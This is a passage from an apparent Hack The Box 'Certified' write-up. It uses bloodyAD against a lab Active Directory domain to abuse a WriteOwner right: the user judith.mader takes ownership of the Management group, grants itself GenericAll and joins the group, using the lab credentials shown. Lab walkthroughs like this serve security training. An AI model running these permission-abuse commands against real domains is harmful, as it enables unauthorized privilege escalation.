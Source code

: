 ## Lateral Movement in Domain

Using bloodyAD to do the lateral movement from **Judith.mader** to **Ca_operator**.

[https://github.com/CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

### Judith.mader@certified.htb → Management@certified.htb

![image.png](/assets/images/Certified_HTB/image%208.png)

We can see that **Judith.mader** has **WriteOwner** permissions on **Management@certified.htb** group.

So lets just set **Judith** as the owner of **management** group.

```bash
bloodyAD -d certified.htb -u 'judith.mader' -p 'judith09' --dc-ip 10.129.231.186 set owner 'Management' 'judith.mader'
```

![image.png](/assets/images/Certified_HTB/image%209.png)

Now lets give **judith.mader** **genericAll** on **management.**

```bash
bloodyAD -d certified.htb -u 'judith.mader' -p 'judith09' --dc-ip 10.129.231.186 add genericAll management judith.mader
```

![image.png](/assets/images/Certified_HTB/image%2010.png)

Now we add **judith.mader** to the **management** group.

```bash
bloodyAD -d certified.htb -u 'judith.mader' -p 'judith09' --dc-ip 10.129.231.186 add groupMember management judith.mader
```
